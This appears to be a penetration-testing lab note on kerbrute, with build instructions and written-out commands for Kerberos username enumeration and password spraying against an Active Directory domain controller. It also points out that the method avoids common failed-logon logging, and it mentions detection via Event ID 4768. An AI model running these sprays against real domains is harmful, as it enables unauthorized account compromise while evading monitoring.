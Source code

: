 -- -
Software to bruteforce kerberos.
### Compile from source
```bash
# clone repo
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute

# Show compilation options
make help

# compile only linux binary
sudo make linux

# compile a binary for all OSes (Windows, Linux, and Mac)
sudo make all

# Compiled binaries will be located in the newly created dist directory
# Move binary onto path. Of note, you can literally just move the binary to any location on your path
echo $PATH
sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
```

### Enumerating Users
When enumerating usernames, kerbrute uses Kerberos Pre-Authentication to validate users in the domain. It is much faster and (potentially) stealthier way to perform password spraying. Does not generate Windows `Event ID 4625: An account failed to log on`, which is what is **usually** monitored for. Kerbrute sends a TGT request to the DC, if the DC replies with a `PRINCIPAL UNKNOWN` error, then the username does not exist. This method **will not** lockout any accounts. 
Kerbrute will trigger `Event ID 4768: A Kerberos authentication ticket (TGT) was requested`, which will only be triggered if `Kerberos event logging` is enabled via Group Policy. Defenders can tune their SIEM tools to look for an influx of this event ID. So the tool isn't foolproof 
```bash
# this assumes you have identified two data points:
# Domain Controller: You've identified the IP of a Domain Controller
# Domain: You know the name of the Domain administered by the Domain Controller
kerbrute userenum -d <domain> --dc <dc ip> <user wordlist> -o <output file> 
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```

^3c4231

#### Password Spray
```bash
# Generic
kerbrute passwordspray -d <domain> --dc <dc ip> <userlist> <passwd>

# Specific
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

^ab0bcd
